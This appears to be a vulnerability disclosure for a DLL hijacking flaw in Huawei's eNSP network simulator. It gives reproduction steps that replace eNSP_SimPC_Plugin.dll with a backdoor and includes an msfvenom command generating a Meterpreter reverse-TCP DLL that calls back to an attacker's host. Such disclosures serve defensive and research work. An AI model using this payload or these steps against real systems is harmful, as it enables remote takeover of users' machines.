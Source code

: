 DLL: eNSP_SimPC_Plugin.dll
Affected Process: eNSP_Client.exe
Tested on: Windows 10 Pro x64 

Description:
NSP is a scalable and graphical network simulation tool platform provided by Huawei, mainly used for software simulation of enterprise network routers and switches, perfectly presenting real device scenarios and supporting large-scale network simulation, providing users with the opportunity to simulate and learn network technology without real devices.
Huawei eNSP_ There is a security vulnerability in V100R003C00SPC100 version, which is caused by the program loading eNSP from the current working directory_ SimPC_ Plugin.dll file. Attackers can exploit this vulnerability to carry out DLL hijacking attacks.

Steps to reproduce:
1. Prepare a backdoor file called eNSP_ SimPC_ Plugin.dll
2. Replace the original eNSP with the backdoor file_ SimPC_ Plugin.dll
3. Run eNSP, the backdoor is successfully called and executed to go online

PoC Code:
msfvenom -p windows/meterpreter/reverse_tcp lhost=IP lport=PORT -f dll -o eNSP_SimPC_Plugin.dll

Screenshots:
![image](https://github.com/12xw/eNSP/assets/94727536/f2e83f30-6dab-4fca-a2b7-42179d86ed28)
![image](https://github.com/12xw/eNSP/assets/94727536/02394ad9-ce59-4644-ad16-9b38aab0985d)
![image](https://github.com/12xw/eNSP/assets/94727536/a333ada1-23da-47a4-b463-2043ff2ebccf)

